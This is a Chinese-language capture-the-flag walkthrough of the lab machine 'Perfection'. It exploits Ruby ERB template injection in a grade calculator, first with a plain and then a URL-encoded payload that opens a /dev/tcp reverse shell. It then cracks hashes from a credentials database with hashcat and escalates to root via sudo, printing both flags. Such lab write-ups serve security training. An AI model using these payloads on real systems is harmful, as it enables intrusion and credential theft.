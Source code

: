 # Perfection

:::info

Difficulty: Easy

Operating System: Linux

:::

## 信息收集

```plaintext
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
```

## web 服务

![img](img/image_20240323-102325.png)

使用 `Burp Suite` 进行抓包

```plaintext
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
Content-Length: 161
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.253
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.253/weighted-grade-calc
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

category1=as&grade1=1&weight1=100&category2=as&grade2=1&weight2=0&category3=as&grade3=1&weight3=0&category4=as&grade4=1&weight4=0&category5=as&grade5=1&weight5=0
```

## SSTI - Ruby

结合网站所使用的框架 `WEBrick 1.7.0` 信息，尝试使用 SSTI 进行注入

[SSTI (Server Side Template Injection) - HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby)

```plaintext
<%= system("bash -c'/bin/bash -i>& /dev/tcp/10.10.16.3/9999 0>&1'") %>
```

对其进行编码处理

```plaintext
abc%0a<%25=%20system("bash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.3%2F9999%200%3E%261%27")%20%25>
```

然后发包

```plaintext
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
Content-Length: 281
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.253
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.253/weighted-grade-calc
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

grade1=1&weight1=100&category2=as&grade2=1&weight2=0&category3=as&grade3=1&weight3=0&category4=as&grade4=1&weight4=0&category5=as&grade5=1&weight5=0&category1=abc%0a<%25=%20system("bash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.3%2F9999%200%3E%261%27")%20%25>
```

即可收到回连的 shell

## User - susan

```bash
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[10:25:46] Welcome to pwncat 🐈!
[10:49:20] received connection from 10.10.11.253:55950
[10:49:29] 10.10.11.253:55950: registered new host w/ db
(local) pwncat$ back
(remote) susan@perfection:/home/susan/ruby_app$ whoami
susan
```

### flag - user

```bash
(remote) susan@perfection:/home/susan$ cat user.txt
ca7858ea6597f30db9a3318e380a8447
```

### 环境探测

```bash
(remote) susan@perfection:/home/susan$ ls -lah
total 48K
drwxr-x--- 7 susan susan 4.0K Feb 26 09:41 .
drwxr-xr-x 3 root  root  4.0K Oct 27 10:36 ..
lrwxrwxrwx 1 root  root     9 Feb 28  2023 .bash_history -> /dev/null
-rw-r--r-- 1 susan susan  220 Feb 27  2023 .bash_logout
-rw-r--r-- 1 susan susan 3.7K Feb 27  2023 .bashrc
drwx------ 2 susan susan 4.0K Oct 27 10:36 .cache
drwx------ 3 susan susan 4.0K Oct 27 10:36 .gnupg
lrwxrwxrwx 1 root  root     9 Feb 28  2023 .lesshst -> /dev/null
drwxrwxr-x 3 susan susan 4.0K Oct 27 10:36 .local
drwxr-xr-x 2 root  root  4.0K Oct 27 10:36 Migration
-rw-r--r-- 1 susan susan  807 Feb 27  2023 .profile
lrwxrwxrwx 1 root  root     9 Feb 28  2023 .python_history -> /dev/null
drwxr-xr-x 4 root  susan 4.0K Oct 27 10:36 ruby_app
lrwxrwxrwx 1 root  root     9 May 14  2023 .sqlite_history -> /dev/null
-rw-r--r-- 1 susan susan    0 Oct 27 06:41 .sudo_as_admin_successful
-rw-r----- 1 root  susan   33 Mar  9 02:04 user.txt
-rw-r--r-- 1 susan susan   39 Oct 17 12:26 .vimrc
```

在其中发现有 `.sqlite_history` 文件

同时，找到 `./Migration/pupilpath_credentials.db` 文件，下载到本地进行数据库读取

在数据库中，有 `user` 表

| id  |      name      |                             password                             |
| :-: | :------------: | :--------------------------------------------------------------: |
|  1  |  Susan Miller  | abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f |
|  2  |   Tina Smith   | dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57 |
|  3  |  Harry Tyler   | d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393 |
|  4  | David Lawrence | ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a |
|  5  | Stephen Locke  | 154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8 |

暂时无法确定哈希的格式

同时，找到一封邮件 `/var/spool/mail/susan`

```plaintext
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

### 密码哈希爆破

```bash
PS D:\_Tools\hashcat-6.2.6> .\hashcat.exe -m 1400 -a 3 abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f susan_nasus_?d?d?d?d?d?d?d?d?d --show
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
```

得到密码之后，就可以访问 `sudo` 了

```bash
(remote) susan@perfection:/var/spool/mail$ sudo -l
[sudo] password for susan: <susan_nasus_413759210>
Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
```

## User - root

```bash
(remote) susan@perfection:/var/spool/mail$ sudo -i
root@perfection:~# whoami
root
```

### flag - root

```bash
root@perfection:~# cat root.txt
49af4f82e3665ca3d0f3187ea474e5f8
```
